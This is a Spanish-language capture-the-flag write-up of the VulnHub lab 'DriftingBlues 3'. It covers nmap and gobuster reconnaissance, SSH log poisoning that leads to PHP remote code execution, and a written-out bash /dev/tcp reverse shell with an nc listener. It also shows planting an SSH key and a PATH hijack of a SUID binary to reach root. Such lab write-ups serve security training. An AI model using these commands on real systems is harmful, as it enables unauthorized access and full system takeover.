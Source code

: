 ```yaml
---
title: Driffting Blues 3
date: 2024-07-10
categories: [WRITEUPS, VulnHub]
tags: [log poisoning]  # TAG names should always be lowercase
image: /assets/images/vulnhub/logo.png
---
```


Buenas, en esta máquina explotaremos un **Log Poisoning** para derivarlo a un **RCE**, y para la escalada de privilegios nos aprovecharemos del bit **SUID** del binario **getinfo**.

---

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos una vez conozcamos la dirección *IP*, será realizar un escaneo con **NMAP**, para comprobar los puertos que tiene abiertos.

```bash
nmap -p- --open -T5 192.168.1.150 -n -Pn -v
```

![picture](/assets/images/vulnhub/db3-1.png){: w="600" h="300" }

A continuación, nos iremos al navegador para ver la página web del servicio **HTTP**.

![picture](/assets/images/vulnhub/db3-2.png)

La página Web parece ser la de un festival de música, no encontramos nada interesante, por lo que a continuación realizaremos **Fuzzing** con **Gobuster** para encontrar entradas que no podamos ver a simple vista.

```bash
gobuster dir -u http://192.168.1.150/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403
```

![picture](/assets/images/vulnhub/db3-3.png)

En el archivo "**robots.txt**" encontramos la siguiente entrada.

![picture](/assets/images/vulnhub/db3-4.png)

Y a su vez, en la entrada encontrada, nos dice que tienen un problema con el servicio **SSH**, y que miremos en "**/littlequeenofspades.html**".

En la siguiente entrada, encontramos la letra de una canción y una contraseña en **base64**.

![picture](/assets/images/vulnhub/db3-5.png){: w="600" h="300" }

Al decodificarla, nos muestra otra cadena hasheada, el cual volveremos a decodificar, y nos mostrará lo que parece ser un archivo de **log**, con los registros de eventos de las tareas **CRON** y  algunos mensajes con la autenticación **SSH**.

Si intentamos conectarnos mediante **SSH** con un usuario aleatorio llamado "*pwned*", podemos comprobar que el registro se actualiza y sale la conexión no exitosa.

![picture](/assets/images/vulnhub/db3-6.png)

---

## **Explotación**

A continuación, la idea es derivar un **Log Posioning** a un **RCE** (*Remote Code Execution*). Para ello tendremos que introducir código **PHP** en el nombre del usuario mediante la conexción **SSH**.

Al intentar inyectar código **PHP** mediante el usuario de **SSH** nos da un error por caracteres inválidos.

![picture](/assets/images/vulnhub/db3-7.png)

Así que nos iremos a **metasploit**, y usaremos el siguiente **exploit** para que nos deje introducir código **PHP**.

![picture](/assets/images/vulnhub/db3-8.png)

Indicaremos en el nombre, el código en **PHP** por el cual podremos ejecutar comandos en la web, una contraseña cualquiera, y la dirección **IP** de la máquina vulnerable.

![picture](/assets/images/vulnhub/db3-9.png){: w="600" h="300" }

Ejecutamos el exploit, y ya podremos ejecutar comandos con el parámetro que hayamos escogido, en mi caso es "**cmd**".

![picture](/assets/images/vulnhub/db3-10.png)

Ejecutamos el comando id en el navegador, y nos lo muestra.

![picture](/assets/images/vulnhub/db3-11.png)

A continuación, ejecutaremos una **Reverse Shell** en el navegador, mientras que en nuestra máquina local estaremos escuchando con un **Listener** con **ncat**.

1. Máquina local

    ```bash
    nc -nlvp 4444
    ```

2. Navegador

    ```bash
    bash -c "bash -i >%26 /dev/tcp/"Nuestra IP"/4444 0>%261"
    ```

Y acabamos de obtener acceso a la máquina.

![picture](/assets/images/vulnhub/db3-12.png){: w="600" h="300" }

---

## **Escalada de privilegios**

Buscando por la máquina he encontrado que en el directorio del usuario "**robertj**", tenemos permisos de lectura, escritura y ejecución en el directorio ***.ssh***, pero en el directorio se encuentra vacío.

Para poder migrar al usuario "**robertj**", lo que haremos será crear una clave privada y otra pública con el siguiente comando.

```bash
ssh-keygen -t rsa -b 2048 -f id_rsa
```

![picture](/assets/images/vulnhub/db3-13.png){: w="600" h="300" }

Una vez hecho esto, tendremos que introducir el contenido de la clave pública en un archivo llamado "**authorized_keys**".

```bash
cat id_rsa.pub >> authorized_keys
```

A continuación, copiaremos el contenido de la clave privada, crearemos un archivo en nuestra máquina local llamado "**id_rsa**", pegaremos la clave privada, y por último le daremos **permisos 600**.

Entramos mediante **ssh** y la clave privada.

Obtenemos acceso, y podemos leer la primera **flag** de usuario.

![picture](/assets/images/vulnhub/db3-14.png){: w="600" h="300" }

Buscando permisos **SUID** he encontrado el siguiente binario.

![picture](/assets/images/vulnhub/db3-15.png){: w="600" h="300" }

Si lo ejecutamos, podemos comprobar que muestra el contenido de "**/etc/hosts**", y muestra el comando **uname -a**.

![picture](/assets/images/vulnhub/db3-16.png)

Para poder escalar privilegios, nos iremos al directorio "*/tmp/*" y crearemos un archivo llamado ***uname***, el cual dentro obtendrá una bash. Y le damos permisos 777.

![picture](/assets/images/vulnhub/db3-17.png){: w="600" h="300" }

Introduciremos al **PATH** la ruta de **tmp**, para que encuentre antes nuestro archivo que el comando **uname**.

```bash
export PATH=/tmp/:$PATH
```

Ejecutamos el binario, y obtenemos la bash como **root**.

![picture](/assets/images/vulnhub/db3-18.png)

Y podemos leer la segunda flag del usuario **root**.

![picture](/assets/images/vulnhub/db3-19.png){: w="300" h="200" }

